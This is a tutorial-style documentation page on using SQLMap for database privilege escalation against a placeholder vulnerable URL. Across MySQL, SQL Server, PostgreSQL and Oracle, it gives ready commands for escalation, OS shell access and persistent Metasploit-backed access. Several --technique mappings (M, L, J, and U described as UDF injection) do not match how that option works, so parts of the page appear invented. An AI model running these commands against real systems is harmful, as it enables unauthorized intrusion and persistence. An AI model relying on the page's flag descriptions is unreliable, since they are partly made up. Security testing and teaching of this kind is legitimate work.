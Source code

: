 ```yaml
---
title: Privilege Escalation
description: Learn how to perform privilege escalation using SQLMap's advanced techniques
---
```


# Privilege Escalation

SQLMap provides capabilities to check for and potentially exploit privilege escalation opportunities in various database management systems. These techniques can help identify and leverage excessive privileges during authorized security assessments.

## Checking Current Privileges

### Identifying Database User Privileges

To check the current database user's privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges
```

This command displays all privileges assigned to the current database user.

### Checking DBA Status

To verify if the current user has database administrator privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --is-dba
```

This returns a boolean result indicating whether the current user has DBA privileges.

## Automated Privilege Escalation

SQLMap can attempt to automatically escalate privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

This command attempts various privilege escalation techniques based on the detected DBMS.

## DBMS-Specific Techniques

### MySQL Privilege Escalation

For MySQL, SQLMap can attempt:

1. User-Defined Function (UDF) injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=U
```

2. MOF (Managed Object Format) exploitation on Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=M
```

### Microsoft SQL Server Privilege Escalation

For SQL Server, SQLMap can attempt:

1. `xp_cmdshell` re-enabling:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql
```

2. SQL Server Agent job creation (requires specific privileges):

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql --technique=Q
```

### PostgreSQL Privilege Escalation

For PostgreSQL, SQLMap can attempt:

1. Custom function creation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql
```

2. Large object exploitation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql --technique=L
```

### Oracle Privilege Escalation

For Oracle, SQLMap can attempt:

1. PL/SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle
```

2. Java class loading:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle --technique=J
```

## Gaining System Access

After privilege escalation, you can attempt to gain system access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-shell
```

This combines privilege escalation with OS shell access attempts.

## Maintaining Access

To establish persistent access after privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-pwn
```

This attempts to create a more persistent connection using Metasploit integration.


## Troubleshooting Privilege Escalation

If privilege escalation attempts fail:

1. Verify the injection point supports stacked queries
2. Check if the database user has sufficient base privileges
3. Examine if security controls are preventing escalation
4. Try different techniques with the --technique parameter
5. Use verbose mode (-v) to get more detailed information about the attempts

Remember that privilege escalation success depends on:
- The specific DBMS version and configuration
- Existing security patches and controls
- The initial privileges of the compromised database user
- Operating system security settings
